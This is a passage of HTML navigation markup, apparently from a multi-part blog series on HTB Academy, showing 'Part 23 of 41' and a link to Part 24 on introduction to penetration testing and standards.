    <span class="ff-center-part">Part 23 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-24-introduction-to-penetration-testing/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 24: Introduction to Penetration Testing & Standards</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
